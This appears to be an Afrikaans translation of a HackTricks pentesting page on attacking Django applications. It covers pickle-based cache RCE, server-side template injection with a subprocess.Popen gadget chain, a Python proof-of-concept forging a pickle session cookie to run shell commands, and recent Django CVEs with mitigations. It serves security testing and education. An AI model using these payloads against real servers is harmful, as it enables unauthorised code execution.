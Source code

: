 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulasie na RCE
Django se standaard cache stoor metode is [Python pickles](https://docs.python.org/3/library/pickle.html), wat kan lei tot RCE as [onbetroubare invoer ontpikkel word](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **As 'n aanvaller skrywe toegang tot die cache kan verkry, kan hulle hierdie kwesbaarheid na RCE op die onderliggende bediener eskaleer**.

Django cache word in een van vier plekke gestoor: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [geheue](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [lêers](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), of 'n [databasis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache wat in 'n Redis bediener of databasis gestoor is, is die mees waarskynlike aanvalsvectors (Redis inspuiting en SQL inspuiting), maar 'n aanvaller mag ook in staat wees om lêer-gebaseerde cache te gebruik om 'n arbitrêre skrywe in RCE te omskep. Onderhouers het dit as 'n nie-kwessie gemerk. Dit is belangrik om te noem dat die cache lêer gids, SQL tabelnaam, en Redis bediener besonderhede sal verskil op grond van implementering.

Hierdie HackerOne verslag bied 'n uitstekende, herhaalbare voorbeeld van die ontginning van Django cache wat in 'n SQLite databasis gestoor is: https://hackerone.com/reports/1415436

---

## Bediener-kant Sjabloon Inspuiting (SSTI)
Die Django Sjabloon Taal (DTL) is **Turing-voltooi**. As gebruiker-gelewer data as 'n *sjabloon string* gerender word (byvoorbeeld deur `Template(user_input).render()` aan te roep of wanneer `|safe`/`format_html()` outomatiese ontsnapping verwyder), kan 'n aanvaller volle SSTI → RCE bereik.

### Opsporing
1. Soek na dinamiese oproepe na `Template()` / `Engine.from_string()` / `render_to_string()` wat *enige* ongesuiwerde versoekdata insluit.
2. Stuur 'n tyd-gebaseerde of aritmetiese payload:
```django
{{7*7}}
```
As die gerenderde uitvoer `49` bevat, word die invoer deur die sjabloon enjin gecompileer.

### Primitive na RCE
Django blokkeer direkte toegang tot `__import__`, maar die Python objek grafiek is bereikbaar:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Vind die indeks van `subprocess.Popen` (≈400–500 afhangende van die Python-bou) en voer arbitrêre opdragte uit:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
'n Veiliger universele gadget is om te herhaal totdat `cls.__name__ == 'Popen'`.

Dieselfde gadget werk vir **Debug Toolbar** of **Django-CMS** sjabloon weergawe funksies wat gebruikersinvoer verkeerd hanteer.

---

## Pickle-Backed Session Cookie RCE
As die instelling `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` geaktiveer is (of 'n pasgemaakte serialiseerder wat pickle deserialiseer), Django *dekripteer en unpickles* die sessie koekie **voor** enige weergawe kode aangeroep word. Daarom is dit genoeg om 'n geldige ondertekeningssleutel (die projek `SECRET_KEY` per standaard) te besit vir onmiddellike afstands kode uitvoering.

### Exploit Vereistes
* Die bediener gebruik `PickleSerializer`.
* Die aanvaller weet / kan raai `settings.SECRET_KEY` (lekke via GitHub, `.env`, fout bladsye, ens.).

### Bewys-van-Konsep
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Stuur die resulterende koekie, en die payload loop met die toestemmings van die WSGI-werker.

**Mitigaties**: Hou die standaard `JSONSerializer`, draai `SECRET_KEY` om, en konfigureer `SESSION_COOKIE_HTTPONLY`.

---

## Onlangs (2023-2025) Hoë-Impakte Django CVEs Wat Pentesters Moet Nagaan
* **CVE-2025-48432** – *Log-inspuiting via ongeëscape `request.path`* (opgelos 4 Junie 2025). Laat aanvallers toe om nuwe reëls/ANSI-kodes in loglêers te smokkel en afgeleide loganalise te vergiftig. Patches vlak ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritieke SQL-inspuiting* in `QuerySet.values()/values_list()` op `JSONField` (CVSS 9.8). Skep JSON sleutels om uit aanhalingstekens te breek en arbitrêre SQL uit te voer. Opgelos in 4.2.15 / 5.0.8.

Fingerprint altyd die presiese raamwerk weergawe via die `X-Frame-Options` foutblad of `/static/admin/css/base.css` hash en toets die bogenoemde waar van toepassing.

---

## Verwysings
* Django sekuriteitsvrystelling – "Django 5.2.2, 5.1.10, 4.2.22 adresseer CVE-2025-48432" – 4 Junie 2025.
* OP-Innovate: "Django vrystellings sekuriteitsopdaterings om SQL-inspuitingsfout CVE-2024-42005 aan te spreek" – 11 Augustus 2024.

{{#include ../../banners/hacktricks-training.md}}
